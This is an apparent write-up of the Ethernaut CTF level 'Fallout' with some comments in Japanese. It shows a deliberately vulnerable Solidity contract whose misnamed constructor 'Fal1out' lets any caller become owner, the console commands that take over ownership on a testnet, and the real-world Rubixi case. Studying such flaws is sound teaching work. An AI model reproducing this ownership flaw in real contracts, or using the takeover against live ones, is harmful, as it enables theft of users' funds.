 ## Ethernaut-solution

### 2.FallOut

Claim ownership of the contract below to complete this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender; //msg is global variable represent transaction. sender is transaction.
    //everyone can be owner.(changeable internall state of owner)
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

await contract.owner()
```
'0x0000000000000000000000000000000000000000'
```
player
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

contract.abi
```
(6) [{…}, {…}, {…}, {…}, {…}, {…}]
```
//ABIをよくみるとfunctionがFalloutじゃなくて"Fal1out"になっているのがわかる。これではcontractは効力がない。
```
0: {inputs: Array(0), name: 'Fal1out', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
1: {inputs: Array(0), name: 'allocate', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
2: {inputs: Array(1), name: 'allocatorBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(0), name: 'collectAllocations', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
5: {inputs: Array(1), name: 'sendAllocation', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 6
[[Prototype]]: Array(0)
```

//contract作成。everybody is gonna be owner! 

```
contract.Fal1out()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
addListener: ƒ (t,e,r)
emit: ƒ (t,e,r,n,o,a)
listeners: ƒ (t)
off: ƒ (t,e,r,n)
on: ƒ (t,e,r)
once: ƒ (t,e,r)
removeAllListeners: ƒ (t)
removeListener: ƒ (t,e,r,n)
_events: o {}
[[Prototype]]: Promise
[[PromiseState]]: "pending"
[[PromiseResult]]: undefined
```
```
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 <br>
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c
```

```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

player
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

---
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
